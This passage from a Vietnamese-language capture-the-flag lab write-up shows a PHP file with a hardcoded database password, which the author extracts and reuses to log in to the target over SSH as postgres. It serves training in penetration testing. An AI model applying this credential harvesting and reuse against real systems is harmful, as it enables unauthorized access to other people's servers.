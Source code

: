 Trong dashboard.php, tìm thấy thông tin sau:

```
session_start();
  if($_SESSION['login'] !== "true") {
    header("Location: index.php");
  die();
}
try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}
```

Mật khẩu là: `P@s5w0rd!`

Lưu ý rằng shell có thể chết đột ngột, thay vì thực hiện lại khai thác một lần nữa, sử dụng SSH để đăng nhập:

```
┌─[ilinor@Parrot]─[~/Vaccine]
└──╼ $ssh postgres@10.129.95.174
The authenticity of host '10.129.95.174 (10.129.95.174)' can't be established.
ECDSA key fingerprint is SHA256:eVsQ4RXbKR9eOZaXSlMmyuKTDOQ39NAb4vD+GOegBvk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.95.174' (ECDSA) to the list of known hosts.
postgres@10.129.95.174's password: P@s5w0rd!
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
 System information as of Sat 24 Jul 2021 11:16:59 AM UTC

 System load:  0.0               Processes:             245
 Usage of /:   35.0% of 8.73GB   Users logged in:       0
 Memory usage: 19%               IP address for ens160: 10.129.95.174
 Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be installed immediately.
0 of these updates are security updates.

Your Ubuntu release is not supported anymore.
For upgrade information, please visit:
http://www.ubuntu.com/releaseendoflife

New release '20.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

postgres@vaccine:~$
```
